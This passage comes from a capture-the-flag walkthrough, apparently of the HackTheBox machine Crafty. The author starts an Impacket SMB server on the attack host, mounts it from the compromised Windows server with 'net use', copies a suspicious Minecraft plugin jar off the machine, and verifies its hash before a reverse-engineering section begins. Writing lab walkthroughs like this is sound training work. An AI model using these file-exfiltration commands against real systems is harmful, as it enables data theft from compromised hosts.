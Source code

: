 And find it [on VT](https://www.virustotal.com/gui/file/35871dacd39e66bfa6f07de79d959bea37e91d379ce64ed7cc41e72e51fefafb). It’s first submission was in February 2024, the day after Crafty released!

![image-20240610210333150](/img/image-20240610210333150.png)

That’s a good sign this is something custom to Crafty.

### playercounter-1.0-SNAPSHOT.jar

#### Exfil

To get a copy of this Jar file on my host, I’ll start an SMB server with [Impacket’s](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) `smbserver.py`:

```

oxdf@hacky$ smbserver.py share . -smb2support -username oxdf -password oxdf
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

A username and password are required for most Windows hosts to connect. I’ll mount the share on Crafty:

```

PS C:\Users\svc_minecraft\server\plugins> net use \\10.10.14.6\share /u:oxdf oxdf
The command completed successfully.

```

Now I can copy the binary to my machine:

```

PS C:\Users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\

```

I’ll verify the hash matches:

```

oxdf@hacky$ md5sum playercounter-1.0-SNAPSHOT.jar
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar

```

#### Reverse Engineering

